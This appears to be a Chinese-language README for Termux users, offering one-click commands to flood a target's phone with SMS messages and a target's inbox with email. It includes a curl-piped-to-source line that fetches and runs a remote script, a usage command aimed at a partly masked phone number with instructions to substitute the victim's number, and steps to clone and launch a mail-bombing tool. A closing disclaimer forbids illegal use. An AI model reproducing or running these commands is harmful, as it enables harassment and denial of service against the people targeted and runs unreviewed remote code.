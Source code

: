 # 概述
  
- 如果你还没有下载termux可以点击[这里](https://f-droid.org/en/packages/com.termux/)
- 若你没有科学环境可以自行搜索下载，或者点击[这里](https://m.youxibao.com/app/15333.html)
  
- 假如你在代码使用的过程中出现类似于的选项。
>Do you want to continue? [Y/n]
>
- 直接回车enter即可

[猫桶](https://catbucket.cn/chat.html)
  
# 一键代码使用
   ## 短信轰炸
  
  `source <(curl -L https://raw.githubusercontent.com/cat-bucket/cat-osint/main/sms.txt)`
- 直接粘贴代码进入即可，后续可以直接使用下列指令
- 
  `cd SMSBoom;python smsboom.py run -t 64 -p 184****9269 -f 60 `
  将手机号替换为你需要轰炸的手机号

  ## 邮箱轰炸
  
  在使用之前配置
  
 `pkg install git -y && pkg install php -y && pkg install python -y && git clone https://github.com/cat-bucket/mail-bomber && cd mail-bomber
`
 

### 无需邮箱但无法指定内容
   
更新接口（可选）

`php index.php update-nodes`

后续使用

`cd mail-bomber;php index.php start-bombing 邮箱`

替换要轰炸的邮箱




# 免责声明
本库为对各种程序的简单调用提供，仅供参考，禁止用于商业及非法用途。使用一键指令可能造成的事故与损失，项目未提供代理途径，短信轰炸并不安全，警遵中国法律。


